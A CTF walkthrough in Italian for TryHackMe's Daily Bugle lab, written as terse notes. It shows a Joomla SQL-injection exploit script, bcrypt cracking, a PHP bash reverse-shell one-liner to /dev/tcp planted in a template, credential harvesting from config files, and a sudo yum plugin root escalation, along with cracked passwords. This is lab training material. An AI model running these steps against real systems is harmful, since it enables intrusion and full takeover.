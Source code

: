 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/dailybugle

10.10.113.200
```
sudo openvpn ~/Downloads/damaranto.ovpn
```

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.113.200 -oG risultatoscan
```

```
 cat risultatoscan
```

```
sudo nmap -sC -sV -p80,22,3306 10.10.113.200 -oN risultatoscan2
```

```
 cat risultatoscan2
```
cerchiamo versione Joomla
```
whatweb 10.10.113.200
```
niente con whatweb

```
nmap --script http-enum 10.10.113.200
```
enumeriamo con nmap e troviamo 
Joomla version 3.7.0
```
searchsploit Joomla 3.7.0
```
non troviamo lo script py richiesto da tryhackme , cerchiamo su google

https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

lo scarichiamo

```
python3 Downloads/joomblah.py http://10.10.113.200
```
trovato
```
'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
```

```
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash
```

```
hashid hash
```
	per vedere tipo di hash (bcrypt)

```
john -wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash
```
	==potremmo utilizzare anche hashcat== più utile se usiamo la gpu
trovata password
```
spiderman123
```

==entriamo== in pagina web con user: jonah pw: spiderman123
http://10.10.113.200/administrator/

i template sono vulnerabili e in php  andiamo sul template ==Beez3==
e la ==vulnerabilità sta sulla pagina error.php o index.php==

ci mettiamo una ==reverse shell!==

utiliziamo una ==ONE LINER== per fare una ==Reverse Shell==

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.21.9.220/1234 0>&1'");
```
mettiamo in ascolto netcat sulla porta selezionata

```
nc -lvnp 1234
```
 ed inseriamo la reverse shell nells pagina del template index.php ,salviamo e facciamo Template Preview ed ==otteniamo la shell!==

```
whoami
```

```
hostname -I
```

- - - -
==facciamo un trattamento della console cosi da poter utilizzare Ctrl vari senza crash==

```
script /dev/null -c bash
```
poi  per mandarla in background
```
Crtl+Z
```

```
stty raw -echo; fg
```
scriviamo reset ed invio
```
reset
```
tipo terminale
```
xterm
```

```
export TERM=xterm
```

```
export SHELL=bash
```

```
stty -a
```
	per vedere le nostre righe e colonne

```
stty rows 24 columns 80
```

- - - - 
nei file di configurazione potremmo trovare credenziali in chiaro

```
cat /etc/passwd
```
troviamo dei user tra cui un
```
jjameson
```

```
cat configuration.php
```
	qui troviamo una password```

```
password = 'nv5uz9r3ZEDzVjNu'
```
proviamo se è di jjameson
```
ssh jjameson@10.10.113.200
```

```
cat user.txt
```
==user flag!==
```
27a260fe3cba712cfdedb1c86d80442e
```

```
sudo -l
```

 (ALL) NOPASSWD: /usr/bin/yum

https://gtfobins.github.io/

usiamo which per vedere se c'è fpm nella macchina vittima
```
which fpm
```
non c'è quidi usiamo la seconda opzione di gtfobins

 ```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
==e siamo root!==
```
cd /root
```

```
cat root.txt
```

```
root flag!
```

```
xxxxxxxxxxxxxxxxxxxxxxx
```
